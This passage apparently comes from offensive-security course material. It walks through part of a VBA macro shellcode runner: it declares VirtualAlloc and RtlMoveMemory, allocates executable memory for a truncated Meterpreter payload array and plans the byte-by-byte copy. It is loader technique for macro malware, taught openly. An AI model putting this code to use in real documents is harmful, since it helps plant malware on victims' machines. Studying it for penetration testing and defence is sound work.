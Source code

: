 We'll set the last argument to &H40 (0x40), indicating that the memory is readable, writable, and executable.

Our complete *VirtualAlloc* call is shown in Listing 21. Note that the Meterpreter array stored in *buf* has been truncated for ease of display.

```fence
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

...

Dim buf As Variant
Dim addr As LongPtr

buf = Array(252,72,131,228,240,232...

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

> Listing 21 - Calling VirtualAlloc from VBA

Now that we've allocated memory with *VirtualAlloc*, we must copy the shellcode bytes into this memory location. This is done using the [*RtlMoveMemory* function](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory). MSDN describes this function prototype as:

```fence
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination,
  VOID UNALIGNED *Source,
  SIZE_T         Length
);
```

> Listing 22 - RtlMoveMemory function prototype

This function takes three variables. The return value along with the first argument may be translated to *LongPtr*, the second uses *Any*, while the last argument may be translated to *Long*.

The *Destination* pointer points to the newly-allocated buffer, which is already a memory pointer, so we can pass it as-is. The *Source* buffer will be the address of an element from the shellcode array, and must be passed by reference, while the *Length* is passed by value.

```fence
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
```

> Listing 23 - Declare statement for RtlMoveMemory

We'll use this API to loop over each element of the shellcode array and create a byte-by-byte copy of our payload.

The loop condition uses the [*LBound*](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/lbound-function) and *UBound* methods to find the first and last element of the array. This is where our knowledge of *For* loops helps. With that, let's import *RtlMoveMemory*, declare two long variables and copy our payload.
